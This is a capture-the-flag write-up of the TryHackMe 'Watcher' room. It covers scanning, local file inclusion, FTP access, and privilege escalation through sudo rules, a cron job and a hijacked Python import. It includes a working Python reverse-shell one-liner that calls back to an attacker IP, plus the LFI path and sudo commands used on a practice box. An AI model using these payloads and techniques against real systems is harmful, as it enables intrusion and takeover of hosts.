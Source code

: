 # Watcher TryHackMe Writeup

>Room link : https://tryhackme.com/room/watcher

![](images/BoxImage.png)


## __First flag__

So as usual I stated with nmap.


```
# Nmap 7.91 scan initiated Sun Feb 21 18:23:14 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.239.73
Warning: 10.10.239.73 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.239.73
Host is up, received syn-ack (0.16s latency).
Scanned at 2021-02-21 18:23:15 IST for 1494s
Not shown: 64971 closed ports, 561 filtered ports
Reason: 64971 conn-refused and 561 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7hN8ixZsMzRUvaZjiBUrqtngTVOcdko2FRpRMT0D/LTRm8x8SvtI5a52C/adoiNNreQO5/DOW8k5uxY1Rtx/HGvci9fdbplPz7RLtt+Mc9pgGHj0ZEm/X0AfhBF0P3Uwf3paiqCqeDcG1HHVceFUKpDt0YcBeiG1JJ5LZpRxqAyd0jOJsC1FBNBPZAtUA11KOEvxbg5j6pEL1rmbjwGKUVxM8HIgSuU6R6anZxTrpUPvcho9W5F3+JSxl/E+vF9f51HtIQcXaldiTNhfwLsklPcunDw7Yo9IqhqlORDrM7biQOtUnanwGZLFX7kfQL28r9HbEwpAHxdScXDFmu5wR
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBmjWU4CISIz0mdwq6ObddQ3+hBuOm49wam2XHUdUaJkZHf4tOqzl+HVz107toZIXKn1ui58hl9+6ojTnJ6jN/Y=
|   256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHb7zsrJYdPY9eb0sx8CvMphZyxajGuvbDShGXOV9MDX
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Hence open ports are 

*  21 (FTP)
*  22
*  80

Hence I first visited port 80.

![](images/port80.png)


I fired up gobuster .

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.239.73/
[+] Threads:        20
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/21 18:24:10 Starting gobuster
===============================================================
/index.php (Status: 200)
/images (Status: 301)
/post.php (Status: 200)
/css (Status: 301)
/robots.txt (Status: 200)
/bunch.php (Status: 200)
/round.php (Status: 200)
/server-status (Status: 403)
```

Hence first I visited robots.txt. 

![](images/robot.png)


Hence first flag is found.



## __Second Flag__


Hence when I clicked the products in the website I found that the parameter **post** might be vulnerable.


So there was a possibility of **LFI** .And I tried /etc/passwd and it worked.

![](images/etcpass.png)



So I tried the second entry in the robots.txt . 


![](images/ftppass.png)



So we get ftp username and pass.

![](images/ftpfold.png)


We get flag_2.txt and we see that files directory doesn't contain anything , but interesting part is it is writeable.


## __Flag 3__


Hence I uploaded a reverse shell in ftp files directory.


Since it is in the folder **/home/ftpuser/ftp/files/shell.php** , we can use LFI to access it.


> http://10.10.222.19/post.php?post=../../../../../home/ftpuser/ftp/files/shell.php


Hence we get a shell. And we can find flag 3.


![](images/flag3.png)



## __Flag 4__


When I tried sudo -l I got


![](images/wwperm.png)


So we can get to user toby using

> sudo -u toby /bin/bash

And we get flag4 .


## __Flag 5__


![](images/jobs.png)


There is a folder called jobs and it contains a shell script file called **cow.sh**

```shell
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```
Now let's add bash reverse shell and comment out the cp command.

![](images/editjob.png)


Hence we get a shell and the fifth flag.


## __Flag 6__

So here was also a note.txt


![](images/pythonperm.png)



Hence in the scripts dir we can see two python files.

**cmd.py** and **will_script.py**

will_script.py :

```python
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```

cmd.py :

```python
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```

Hence I added in cmd.py before the function

> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.74.96",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);


![](images/pythonedit.png)



Hence if we run

> sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *

And we get shell and flag 6.


## __Flag 7 (the root flag)__

So when I used id command I got this 

```shell
will@watcher:~$ id 
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
```
So I tried 

> find / -type f -group adm 2>>/dev/null


![](images/key.png)



So this shows maybe this is a ssh-key and the b64 suggests it that it is base64 encoded.


![](images/cyberchef.png)


And as expected it is ssh private key so saved it as id_rsa and chmod 600 id_rsa.


> ssh -i id_rsa root@\<vpn-ip>



![](images/root.png)





